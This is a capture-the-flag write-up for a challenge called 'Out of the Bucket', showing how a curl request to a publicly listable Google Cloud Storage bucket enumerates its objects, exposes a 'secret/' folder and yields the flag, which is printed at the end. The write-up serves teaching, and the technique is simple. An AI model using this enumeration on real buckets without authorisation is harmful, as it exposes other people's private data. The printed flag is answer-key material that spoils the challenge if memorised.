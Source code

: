 # Out of the Bucket

## Description
Check out my flag website!

Author: windex
https://storage.googleapis.com/out-of-the-bucket/src/index.html 

## Solution
The website for this challenge looks like this.

![Website for challenge](./image1.png)

The website is displayed using buckets from Google Cloud. By using buckets we can display static websites.

In this challenge, we might be able to get the entire list of objects or items contained in the bucket. 
Based on the following [documentation](https://cloud.google.com/storage/docs/listing-objects#rest-list-objects), we can use the REST API of Google Cloud bucket to get all objects from the bucket.
We can use curl to call the API.

```shell
curl https://storage.googleapis.com/out-of-the-bucket\?list-type\=2
```

The result of curl command is like this.

```xml
<?xml version='1.0' encoding='UTF-8'?>
<ListBucketResult
	xmlns='http://doc.s3.amazonaws.com/2006-03-01'>
	<Name>out-of-the-bucket</Name>
	<Prefix></Prefix>
	<KeyCount>8</KeyCount>
	<IsTruncated>false</IsTruncated>
	<Contents>
		<Key>secret/</Key>
		<Generation>1703868492595821</Generation>
		<MetaGeneration>1</MetaGeneration>
		<LastModified>2023-12-29T16:48:12.634Z</LastModified>
		<ETag>"d41d8cd98f00b204e9800998ecf8427e"</ETag>
		<Size>0</Size>
	</Contents>
	<Contents>
		<Key>secret/dont_show</Key>
		<Generation>1703868647771911</Generation>
		<MetaGeneration>1</MetaGeneration>
		<LastModified>2023-12-29T16:50:47.809Z</LastModified>
		<ETag>"737eb19c7265186a2fab89b5c9757049"</ETag>
		<Size>29</Size>
	</Contents>
	<Contents>
		<Key>secret/funny.json</Key>
		<Generation>1705174300570372</Generation>
		<MetaGeneration>1</MetaGeneration>
		<LastModified>2024-01-13T19:31:40.607Z</LastModified>
		<ETag>"d1987ade72e435073728c0b6947a7aee"</ETag>
		<Size>2369</Size>
	</Contents>
	<Contents>
		<Key>src/</Key>
		<Generation>1703867253127898</Generation>
		<MetaGeneration>1</MetaGeneration>
		<LastModified>2023-12-29T16:27:33.166Z</LastModified>
		<ETag>"d41d8cd98f00b204e9800998ecf8427e"</ETag>
		<Size>0</Size>
	</Contents>
	<Contents>
		<Key>src/index.html</Key>
		<Generation>1703867956175503</Generation>
		<MetaGeneration>1</MetaGeneration>
		<LastModified>2023-12-29T16:39:16.214Z</LastModified>
		<ETag>"dc63d7225477ead6f340f3057263643f"</ETag>
		<Size>1134</Size>
	</Contents>
	<Contents>
		<Key>src/static/antwerp.jpg</Key>
		<Generation>1703867372975107</Generation>
		<MetaGeneration>1</MetaGeneration>
		<LastModified>2023-12-29T16:29:33.022Z</LastModified>
		<ETag>"cef4e40eacdf7616f046cc44cc55affc"</ETag>
		<Size>45443</Size>
	</Contents>
	<Contents>
		<Key>src/static/guam.jpg</Key>
		<Generation>1703867372954729</Generation>
		<MetaGeneration>1</MetaGeneration>
		<LastModified>2023-12-29T16:29:32.993Z</LastModified>
		<ETag>"f6350c93168c2955ceee030ca01b8edd"</ETag>
		<Size>48805</Size>
	</Contents>
	<Contents>
		<Key>src/static/style.css</Key>
		<Generation>1703867372917610</Generation>
		<MetaGeneration>1</MetaGeneration>
		<LastModified>2023-12-29T16:29:32.972Z</LastModified>
		<ETag>"0c12d00cc93c2b64eb4cccb3d36df8fd"</ETag>
		<Size>76559</Size>
	</Contents>
</ListBucketResult>
```

Based on this information, there is interesting information, which is that in the secret directory there are files or objects `dont_show` and `funny.json`. The flag for this challenge is in `dont_show` file.

![Flag](./image2.png)

## Flag
`uoftctf{allUsers_is_not_safe}`